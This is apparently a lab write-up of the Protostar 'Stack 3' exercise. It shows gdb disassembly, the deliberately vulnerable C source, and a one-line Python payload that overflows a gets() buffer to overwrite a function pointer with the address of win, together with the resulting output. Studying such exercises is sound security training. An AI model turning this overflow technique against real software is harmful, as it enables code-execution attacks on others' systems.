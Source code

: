 # Stack 3

## Problem

Here we can guess that there is a variable assigned to $0$ in `main+9` and that there is a stack from `esp+1c`. There seems to be a possible exploit with teh `gets` call and following a cmp to $0$ for the variable. We can again guess that the buffer is 64bytes and we might want to overflow the buffer first.
In `main+45` we see that the variable is copied to edx and eventually there is a call to the location within eax at `main+64`.

```gdb
Dump of assembler code for function main:
0x08048438 <main+0>:    push   ebp
0x08048439 <main+1>:    mov    ebp,esp
0x0804843b <main+3>:    and    esp,0xfffffff0
0x0804843e <main+6>:    sub    esp,0x60
0x08048441 <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:   lea    eax,[esp+0x1c]
0x0804844d <main+21>:   mov    DWORD PTR [esp],eax
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    eax,0x8048560
0x08048461 <main+41>:   mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:   mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:   mov    DWORD PTR [esp],eax
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
0x08048477 <main+63>:   leave
0x08048478 <main+64>:   ret
End of assembler dump.
```

We try to find out if there are other functions that is called in main.

```gdb
info functions
>>>All defined functions:
>>>
>>>File stack3/stack3.c:
>>>int main(int, char **);
>>>void win(void);
```

and we can see that there is another `win` function that we might need to work with.

```gdb
Dump of assembler code for function win:
0x08048424 <win+0>:     push   ebp
0x08048425 <win+1>:     mov    ebp,esp
0x08048427 <win+3>:     sub    esp,0x18
0x0804842a <win+6>:     mov    DWORD PTR [esp],0x8048540
0x08048431 <win+13>:    call   0x8048360 <puts@plt>
0x08048436 <win+18>:    leave
0x08048437 <win+19>:    ret
End of assembler dump.
```

I can guess that the stack overflow should have the address location of `win`. We try to combine our stack1 and stack0 knowledge for this.

## Idea and Attack process

We first overflow the buffer first through the gets command. Note that the stack starts at `esp+0x1c`, and the target variable that we want to modify is at `esp+0x5c` which is after the stack. We try to overflow with the address location of `win` to find out what will happen.
We use python to pipe the input into the `gets` call and see the results.

```shell
python -c 'print "1234567890123456789012345678901234567890123456789012345678901234\x24\x84\x04\x08"' | ./stack3
>>>calling function pointer, jumping to 0x08048424
>>>code flow successfully changed
```

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
